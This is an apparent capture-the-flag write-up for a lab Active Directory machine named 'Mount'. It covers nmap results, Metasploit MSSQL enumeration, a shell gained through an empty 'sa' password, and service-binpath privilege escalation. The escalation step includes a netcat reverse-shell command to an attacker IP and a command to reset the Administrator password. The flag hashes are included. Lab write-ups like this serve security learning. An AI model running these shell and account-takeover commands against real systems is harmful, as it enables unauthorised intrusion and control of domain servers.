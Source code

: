 # MOUNT / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e10e5087c55c4b4ba5fa063e1097ec2a.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-16 03:08:51Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Mount.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: MOUNT
|   NetBIOS_Domain_Name: MOUNT
|   NetBIOS_Computer_Name: MOUNT-DC
|   DNS_Domain_Name: Mount.csl
|   DNS_Computer_Name: Mount-DC.Mount.csl
|   DNS_Tree_Name: Mount.csl
|_  Product_Version: 10.0.17763
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Mount.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MOUNT
|   NetBIOS_Domain_Name: MOUNT
|   NetBIOS_Computer_Name: MOUNT-DC
|   DNS_Domain_Name: Mount.csl
|   DNS_Computer_Name: Mount-DC.Mount.csl
|   DNS_Tree_Name: Mount.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-16T03:09:51+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49699/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49860/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## MSSQL ENUMERATION

### METASPLOIT auxiliary\(admin/mssql/mssql\_enum\)

* Accounts with empty password:

```text
sa
```

* Windows Logins on this Server:

  ```text
  Administrator
  NT SERVICE\SQLWriter
  NT SERVICE\Winmgmt
  NT Service\MSSQLSERVER
  NT AUTHORITY\SYSTEM
  NT SERVICE\SQLSERVERAGENT
  NT SERVICE\SQLTELEMETRY
  AKirk
  PTaylor
  KWood
  NLee
  AWoods
  ```

* DOMAIN ACCOUNTS

  ```text
  [*] 172.31.3.5:1433 -  - MOUNT\Administrator
  [*] 172.31.3.5:1433 -  - MOUNT\Guest
  [*] 172.31.3.5:1433 -  - MOUNT\krbtgt
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Users
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Guests
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Computers
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Cert Publishers
  [*] 172.31.3.5:1433 -  - MOUNT\Schema Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Enterprise Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Group Policy Creator Owners
  [*] 172.31.3.5:1433 -  - MOUNT\Read-only Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Cloneable Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Protected Users
  [*] 172.31.3.5:1433 -  - MOUNT\Key Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Enterprise Key Admins
  [*] 172.31.3.5:1433 -  - MOUNT\RAS and IAS Servers
  [*] 172.31.3.5:1433 -  - MOUNT\Allowed RODC Password Replication Group
  [*] 172.31.3.5:1433 -  - MOUNT\Denied RODC Password Replication Group
  [*] 172.31.3.5:1433 -  - MOUNT\MOUNT-DC$
  [*] 172.31.3.5:1433 -  - MOUNT\DnsAdmins
  [*] 172.31.3.5:1433 -  - MOUNT\DnsUpdateProxy
  [*] 172.31.3.5:1433 -  - MOUNT\AKirk
  [*] 172.31.3.5:1433 -  - MOUNT\PTaylor
  [*] 172.31.3.5:1433 -  - MOUNT\KWood
  [*] 172.31.3.5:1433 -  - MOUNT\NLee
  [*] 172.31.3.5:1433 -  - MOUNT\AWoods
  [*] 172.31.3.5:1433 -  - MOUNT\SQLServer2005SQLBrowserUser$MOUNT-DC
  ```

### UPLOAD A SHELL use exploit/windows/mssql/mssql\_payload

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/4f9802d331764214ada8684fc2e1e8c4.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/f3cf031fa759443dad0bc5baa5e9fbf0.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/832a71fbccfa469187b21aef9ce6c477.png)

### WINPEAS

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/962b068f5ccf4577929b3b2a0277e54f.png)

## PRIVESC

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation\#services](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)

### UPLOAD NC64.EXE \(DIDN'T WORKED\)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/3277f93aab244380b67485fab7701219.png)

```text
sc config UsoSvc binpath="cmd \c C:\Windows\SERVIC~1\MSSQLS~1\AppData\Local\Temp\nc64.exe 10.10.0.63 3883 -e C:\WINDOWS\System32\cmd.exe"

sc start UsoSvc
```

### CHANGING ADMINISTRATOR PASSWORD \(WORKED\)

```text
sc config UsoSvc binpath="net use Administrator livestep /DOMAIN"

sc start UsoSvc
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/566e088fb7ca45f0a21555d96e3d4604.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/9e85a653c4c14d8dafbf02f700e9b9c2.png)

## FLAGS

### USER

```text
f4d5ae56175f2f987b5cbdd9281dfdcc
```

### ROOT

```text
e6fca557392919cb8373d0e0165c88ed
```

